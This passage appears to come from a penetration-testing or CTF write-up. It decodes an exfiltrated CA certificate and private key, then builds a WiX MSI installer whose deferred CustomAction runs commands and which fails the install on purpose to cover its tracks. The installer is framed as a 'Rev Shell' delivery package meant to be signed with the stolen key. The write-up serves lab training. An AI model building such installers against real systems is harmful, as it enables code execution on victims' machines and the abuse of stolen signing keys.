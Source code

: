 
Back on our attacking machine we can convert the base64 back into the original files:
```
root@kali: base64 -d MyCA.cer.b64 > MyCA.cer
root@kali: base64 -d MyCA.pvk.b64 > MyCA.pvk
```


Googling around for "linux convert exe to msi", we tried a few free trial GUI applications, but they all include popups and restrictions in their trial versions, eventually we come across a [SuperUser question](https://superuser.com/questions/1060137/how-to-convert-a-exe-to-msi) with the top answer directing us to a tool called [WiX toolset](http://wixtoolset.org/)

Over on a Windows machine we download and extract the WiX toolset (Ours was placed in C:\Tools) Then copy off the `MyCA.cer` and `MyCA.pvf` files to our Windows machine, so that we can use them to sign our MSI later.

We attempted to use the `ApplicationFiles` node of the XML to run our [reverse shell exe](https://github.com/thosearetheguise/rev) directly, but could not get it working. Looking through more of the documentation we find the `CustomAction` node of the MSI xml and see if we can run just that to execute commands.

We created a new xml file (thoseguysdir.xml):
```
<?xml version='1.0' encoding='windows-1252'?> 
<Wix xmlns='http://schemas.microsoft.com/wix/2006/wi'> 
<Product Name='Foobar 1.0' Manufacturer='Acme Ltd.' Id='CE26AD1E-00D5-4E03-8CBE-6DA5C23AA833' UpgradeCode='CE26AD1E-00D5-4E03-8CBE-6DA5C23AA833' Language='1033' Codepage='1252' Version='1.0.0'> 
<Package Id='*' Keywords='Installer' Description="Thoseguys Rev Shell" Comments='Foobar is a registered trademark of Acme Ltd.' Manufacturer='Acme Ltd.' InstallerVersion='100' Languages='1033' Compressed='yes' SummaryCodepage='1252' /> 
<Media Id='1' Cabinet='Sample.cab' EmbedCab='yes' /> 
<Directory Id='TARGETDIR' Name='SourceDir'> 
<Directory Id='ProgramFilesFolder' Name='PFiles'> 
<Directory Id='INSTALLDIR' Name='ThoseGuys 1.0'> 
<Component Id="ApplicationFiles" Guid="CE26AD1E-00D5-4E03-8CBE-6DA5C23AA834"> 
</Component> 
</Directory> 
</Directory> 
</Directory> 
<Feature Id="DefaultFeature" Level="1"> 
<ComponentRef Id="ApplicationFiles"/> 
</Feature> 
<CustomAction Id="SystemShell" Directory="TARGETDIR" ExeCommand="cmd.exe /c dir C:\users > C:\users\public\desktop\shortcuts\msidirresults.txt" Execute="deferred" Impersonate="yes" Return="ignore"/> 
<CustomAction Id="FailInstall" Execute="deferred" Script="vbscript" Return="check"> invalid vbs to fail install</CustomAction> 
<InstallExecuteSequence> 
<Custom Action="SystemShell" After="InstallInitialize"></Custom> 
<Custom Action="FailInstall" Before="InstallFiles"></Custom> 
</InstallExecuteSequence> 
</Product> 
</Wix>
```
